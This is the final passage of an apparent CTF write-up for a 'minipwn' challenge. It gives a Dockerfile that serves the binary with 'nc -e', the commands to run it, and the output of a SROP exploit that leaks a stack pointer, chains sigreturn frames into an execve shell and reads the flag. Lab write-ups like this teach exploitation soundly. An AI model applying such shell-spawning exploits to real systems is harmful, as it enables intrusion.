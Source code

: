 Works on my machine! Well, let's test it "remote". Here's the CTF's Dockerfile which will set up
the challenge for remote pwning. You can tie the binary together with netcat or socat as well. 

```dockerfile
FROM alpine:latest

RUN mkdir /app
COPY pwn /app/
COPY flag.txt /app/
RUN chmod +x /app/pwn
RUN adduser imth -D -s $(which nologin)
EXPOSE 1337
USER imth
WORKDIR /app/
ENTRYPOINT ["nc", "-lkvp", "1337", "-e", "/app/pwn"]
```

Run with:

```bash
docker build -t minipwn .
docker run -p 1337:1337 --rm minipwn
```

Then test the exploit remotely:

```bash
❯❯ python minipwn.py remote 172.17.0.1 1337
[+] Opening connection to 172.17.0.1 on port 1337: Done
[*] Run mode: remote
[+] Opening connection to 172.17.0.1 on port 1337: Done
[*] Run mode: remote
[*] Sending initial payload to leak pointers
[!] leaked stack: 0x7ffc178a6000
[*] Sending stage 2 which feeds the first SIGRETURN frame
[+] Waiting: Done
[*] Triggering the first SIGRETURN by sending 15 junk bytes
[+] Waiting: Done
[*] Resetting the binary to a vulnerable read state and sending 2nd SIGRETURN execve payload
[+] Waiting: Done
[*] Triggering the last SIGRETURN
[+] Waiting: Done
[*] Switching to interactive mode
$ id
uid=1000(imth) gid=1000(imth)
$ cat flag.txt
TMHC{h4v3_y0u_h34rd_0f_SROP}
$
```

## Conclusion

Hopefully that was clear. I know I'll be referring back to this when I run into a similar problem
again during a CTF. I've provided the challenge binary, commented exploit script, Dockerfile, and
flag file in an archive [here](minipwn.tar.gz)
